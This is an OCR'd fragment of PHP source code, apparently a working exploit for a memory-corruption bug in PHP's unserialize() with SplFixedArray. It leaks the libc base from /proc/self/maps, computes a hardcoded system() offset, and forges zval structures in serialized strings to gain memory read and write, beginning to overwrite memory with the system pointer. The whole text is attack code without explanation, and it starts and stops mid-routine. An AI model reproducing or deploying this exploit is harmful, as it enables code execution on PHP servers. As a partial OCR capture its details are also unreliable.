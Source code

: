  ```PHP
    $mid = 'x:6;i:0;s:1:"0";i:1;s:1:"1";i:2;C:13:"SplFixedArray":'.strlen($inner).':{'.$inner.'}i:3;'.$inner2.';i:4;'.$inner2.';i:5;'.$inner2.';';
    $a = 'C:13:"SplFixedArray":'.strlen($mid).':{'.$mid.'}';

    $data = unserialize($a);
    return substr($data[2][2], 0, $length);
}

function parse_libc()
{
    $maps = file_get_contents("/proc/self/maps");
    preg_match('#([0-9a-f]+)\-[0-9a-f]+.+/.+libc\-.+#', $maps, $r);
    $result = hexdec($r[1]);
    return $result;
}

$libc = parse_libc();
echo "libc_base = ".$libc."\n";
$system = ptr2str($libc + 0x46590);
$bss = $libc + 0x3C0000;
/*
$array = array();
for($i = 0;$i<10;$i+=2) {
    $array[$i] = "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA";
}

FOR($i=0;$i<10;$i++) {
    $array[$i] = $i;
}
*/
$inner = 'x:3;i:0;i:0;i:1;s:8:"AAAAAAAA";i:2;?:2;';
$fakezval = ptr2str(0);
$fakezval .= ptr2str(0x7fffffff);
$fakezval .= "\x01\x00\x00\x00";
$fakezval .= "\x06";
$fakezval .= "\x00";
$fakezval .= "\x00\x00";
$inner2 = 's:'.strlen($fakezval).':"'.$fakezval.'"';
$mid = 'x:7;i:0;s:1:"0";i:1;s:1:"1";i:2;C:13:"SplFixedArray":'.strlen($inner).':{'.$inner.'}i:3;'.$inner2.';i:4;'.$inner2.';i:5;'.$inner2.';i:5;?:5;';
$a = 'C:13:"SplFixedArray":'.strlen($mid).':{'.$mid.'}';
$data = unserialize($a);
var_dump($data);

echo bin2hex($data[5]);

/* avoid calling free */
$inner1 = 'x:3;i:0;i:0;i:1;s:8:"AAAAAAAA";i:2;?:2;';
$fakezval1 = ptr2str($bss);
$fakezval1 .= ptr2str(8);
$fakezval1 .= "\x00\x00\x00\x00";
$fakezval1 .= "\x06";
$fakezval1 .= "\x00";
$fakezval1 .= "\x00\x00";
$inner2 = 's:'.strlen($fakezval1).':"'.$fakezval1.'"';
$mid = 'x:6;i:0;s:1:"0";i:1;s:1:"1";i:2;C:13:"SplFixedArray":'.strlen($inner1).':{'.$inner1.'}i:3;'.$inner2.';i:4;'.$inner2.';i:5;'.$inner2.';';
$a = 'C:13:"SplFixedArray":'.strlen($mid).':{'.$mid.'}';
$data1 = unserialize($a);
$y = $data1[2][2];
$y[0] = $system[0];
$y[1] = $system[1];
$y[2] = $system[2];
 ```